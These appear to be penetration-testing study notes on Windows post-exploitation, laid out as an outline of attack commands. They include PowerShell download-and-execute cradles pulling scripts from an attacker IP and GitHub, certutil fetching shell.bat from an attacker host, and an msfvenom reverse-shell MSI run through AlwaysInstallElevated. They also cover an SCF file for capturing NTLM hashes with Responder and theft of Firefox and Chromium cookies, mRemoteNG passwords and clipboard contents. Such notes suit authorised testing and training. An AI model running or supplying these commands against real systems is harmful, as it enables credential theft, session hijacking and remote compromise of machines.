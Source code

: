 Interacting with users:
 Wire shark installed?
		Capture credentials
		[net-creds](https://github.com/DanMcInerney/net-creds) to sniff passwords and hashes from a pcap
	Monitoring for Process command lines
		Create a powershell script:
				```While($true){			
				  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
				  Start-Sleep 1
				  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
				  Compare-Object -ReferenceObject $process -DifferenceObject $process2
					}```
			Host the script on the attacking machine and execute on target machine:
				`IEX (iwr 'http://10.10.10.205/procmon.ps1')`
	Shell Command File (SCF)
		Used by windows explorer to move up and down directories
		Can be manipulated to have the icon file location point to a specific UNC path. 
			Change the Icon file to an SMB session and run [Responder](https://github.com/lgandx/Responder), may be able to captire NTLM hashes.   
		Example:
			Make a file with '@' at the start and extension `.scf`, the @ makes sure windows see its straight away i.e `@test.scf`
				```[Shell]
				Command=2
				IconFile=\\<listener ip>\share\legit.ico
				[Taskbar]
				Command=ToggleDesktop```
			Start Responder 
					`sudo responder -wrf -v -I <tun0>`
			Crack the passwords
	Malicous .ink File
		Doesn't work on Server 2019 hosts.
		[Lnkbomb](https://github.com/dievus/lnkbomb) to create a .ink file
Pillaging 
	Obtaining information from a compromised system
	Identify Common Applications
		Program Files + (x86)
	 List Installed Programs
		 `$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* `
		`$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation`
		 `$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize`
		mRemoteNG
			Used to connect systems using RDP, VNC, SSH
			 Connection info and credentials saved to confCons.xml.
				 password is mR3m
			`ls C:\Users\julio\AppData\Roaming\mRemoteNG`	
			Decrypt password using [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)
				`python 3 mremoteg_decrypt.py -s <password> -p <custom password>`
				Run a for loop with a word list on it.
	Cookie Abuse to get access to Instant messengers.
		[Slack Abuse](https://posts.specterops.io/abusing-slack-for-offensive-operations-2343237b9282)
		Firefox
			Copy Firefox cookies
				`copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .`
			[Cookie Extractor](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py)
				`python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
			Use a [cookie editor extension](https://cookie-editor.cgagnier.ca/)
		Chromium 
			[Invoke-SharpChromium](https://github.com/djhohnstein/SharpChromium)
				`IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
				`Invoke-SharpChromium -Command "cookies slack.com"
	Monitor Clipboard 
		`IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
		`Invoke-ClipboardLogger`
Living of the Land of Binaries and Scripts ([LOLBAS](https://lolbas-project.github.io/#))
	Documents binaries, scripts and libraries that can be used on windows Systems.
	Transferring files with [Cerutil](https://lolbas-project.github.io/lolbas/Binaries/Certutil/)
		`certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`
		Encoding files
			`certutil -encode file1 encodedfile`
		Decoding files
			`certutil -decode encodedfile file2`
	Execute DLL with [rundll32.exe](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)
	Always Install Elevated
		Local group policy
			`Computer Configuration\Administrative Templates\Windows Components\Windows Installer`
			`User Configuration\Administrative Templates\Windows Components\Windows Installer`
		Enumerate always install elevated settings.
			`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
			`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`	
		Generate malicious MSI package and execute to get a reverse shell.
			`msfvenom -p windows/shell_reverse_tcp lhost=<ip> lport=<port> -f msi > aie.msi`
		Execute MSI package
			`msiexec /i  <path to file> /quiet /qn /norestart`
	Scheduled tasks
		[schtasks](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks) command 
			`schtasks /query /fo LIST /v`
			`Get-ScheduledTask | select TaskName,State`
			Can only see tasks created by current user.
	C:\Scripts Permissions
		`.\accesschk64.exe /accepteula -s -d C:\Scripts\`
User/Computer Description Field
	[Get-LocalUser](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.localaccounts/get-localuser?view=powershell-5.1)
		Clear text passwords?
	[Get-WmiObject](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-wmiobject?view=powershell-5.1)
		`Get-WmiObject -Class Win32_OperatingSystem | select Description`
Virtual hard disk drives:
	.vhd .vhdx .vmdk 
	Use the tool [snaffler](https://github.com/SnaffCon/Snaffler)
	Mount the files on linux:
		VMDK
			`guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk`
		VHD/VHDX
			`guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1`
	Mount in windows:
		DiskManagement
			Actions - Attach VHD
		[Mount-VHD](https://learn.microsoft.com/en-us/powershell/module/hyper-v/mount-vhd?view=windowsserver2019-ps)
